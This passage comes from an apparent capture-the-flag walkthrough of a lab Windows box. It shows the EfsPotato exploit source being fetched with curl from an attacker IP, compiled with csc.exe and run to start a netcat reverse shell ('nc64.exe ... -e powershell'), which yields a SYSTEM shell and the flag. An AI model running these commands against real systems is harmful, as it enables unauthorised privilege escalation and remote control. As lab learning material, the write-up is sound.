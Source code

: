 ```
PS C:\ProgramData> curl http://10.11.72.22/EfsPotato.cs -o C:\ProgramData\EfsPotato.cs
```

Now, using `csc.exe` on the machine to build the exploit:

```
PS C:\ProgramData> C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
```

Lastly, we can run the exploit and use the `netcat` we uploaded before to get a shell.

```
PS C:\ProgramData> C:\ProgramData\EfsPotato.exe "C:\ProgramData\nc64.exe 10.11.72.22 443 -e powershell"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: IIS APPPOOL\DefaultAppPool
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=4e9430)
[+] Get Token: 780
[!] process with pid: 1244 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818
```

With this, we get a shell as the `SYSTEM` user and can read the third flag at `C:\Users\Krampus_Proxy\Desktop\root.txt` to complete the challenge.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.39.152] 55315
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> whoami
nt authority\system
PS C:\ProgramData> type C:\Users\Krampus_Proxy\Desktop\root.txt
THM{kr[REDACTED]ad}
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>